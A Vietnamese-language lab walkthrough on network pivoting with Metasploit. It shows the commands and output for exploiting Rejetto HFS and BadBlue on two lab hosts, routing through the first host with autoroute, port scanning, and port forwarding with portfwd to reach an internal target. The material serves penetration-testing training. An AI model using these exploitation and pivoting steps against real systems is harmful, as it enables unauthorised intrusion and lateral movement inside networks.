






# Pivoting

Pivoting là kĩ thuật chuyển hướng mạng đến mạng con nội bộ, nhằm đứng ở máy victim vừa khai thác được, khai thác các máy trong mạng nội bộ 

Target 1 IP: `10.2.30.252`

Target 2 IP: `10.2.21.166`

`ping 10.2.30.252`

    PING 10.2.30.252 (10.2.30.252) 56(84) bytes of data.
    64 bytes from 10.2.30.252: icmp_seq=1 ttl=125 time=2.25 ms
    64 bytes from 10.2.30.252: icmp_seq=2 ttl=125 time=1.99 ms

`ping 10.2.21.166`

	PING 10.2.21.166 (10.2.21.166) 56(84) bytes of data.  # No response from target2

-> ta có thể kết nội đến target 1 mà không thể kết nối target 2

`service postgresql start && msfconsole -q`

`db_status`

`workspace -a Pivoting`

`db_nmap -sV 10.2.30.252`

Exploitation

`search type:exploit name:rejetto`

`use exploit/windows/http/rejetto_hfs_exec`

`options`

`set RHOSTS 10.2.30.252`

`run`

-> sau khi có phiên vào VICTIM 1

`sysinfo`

    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

`getuid`

	Server username: WIN-OMCNBKR66MN\Administrator

`ipconfig`

    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

    Interface 12
    ============
    Name         : AWS PV Network Device #0
    Hardware MAC : 02:2a:6e:86:47:fc
    MTU          : 9001
    IPv4 Address : 10.2.30.252 #
    IPv4 Netmask : 255.255.240.0
    IPv6 Address : fe80::9c0b:f00a:d8b4:f04f
    IPv6 Netmask : ffff:ffff:ffff:ffff::

    Interface 24
    ============
    Name         : Microsoft ISATAP Adapter #2
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1280
    IPv6 Address : fe80::5efe:a02:1efc
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

Target2 nằm trên cùng mạng con với Target1 - `10.2.16.0/20` (xem Interface 12)

`10.2.16.0/20` = from `10.2.16.1` to `10.2.31.254`

## Pivoting

Từ đây ta thấy, về cơ bản máy Attacker không thể ping đến target 2, ta cần 1 cầu nối để thông qua target 1, máy attacker có thể chạy các module MSF lên target 2

`run autoroute -s 10.2.30.0/20`

Hiện tại, có thể truy cập mạng con 10.2.30.0/20 bằng MSFconsole.

`background` -> thoát session target 1

`sessions -n target-1 -i 1` -> đặt tên session

Quét tìm các cổng mở trên hệ thống target 2 - `10.2.21.166`

`search portscan`

`use auxiliary/scanner/portscan/tcp`

`set RHOSTS 10.2.21.166`

`set PORTS 1-100`

`run`

📌 The route is only applicable to MSFconsole, not outside of it

Ta có thể thử mở browser và truy cập 10.2.21.166:80 nhưng không thành công

=> ta có thêm kĩ thuật Port forwarding

## Port Forwarding

Để thực hiện `nmap` trên target 2 cần thiết lập port forwarding

`sessions 1`

`portfwd add -l 1234 -p 80 -r 10.2.21.166`

	[*] Local TCP relay created: :1234 <-> 10.2.21.166:80

-> Với lệnh này, ta hiểu nó đang đứng ở target 1, thiết lập 1 route trả về `10.2.21.166:80` khi từ máy attacker truy cập `localhost:1234`

`background`

-> bây giờ ta đã có thể dùng nmap

`db_nmap -sS -sV -p 1234 localhost` 

-> nhưng quét ở đây là localhost -p 1234, ta không quét full port, dễ gây hiểu nhầm vì thực chất chỉ có port 1234 thông với IP target 2

Và khi vào browser đã có thể truy cập nhưng khá lỗi

Khai thác target 2

`search badblue`

`use exploit/windows/http/badblue_passthru`

`set payload windows/meterpreter/bind_tcp`

`set RHOSTS 10.2.21.166`

`set LPORT 4433` -> đổi LPORT vì PORT cũ trùng session 1

`run`

-> ta đã có phiên vào TARGET 2

`sysinfo`

    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

`getuid`

	Server username: ATTACKDEFENSE\Administrator

`background`

`sessions -n target-2 -i 2`

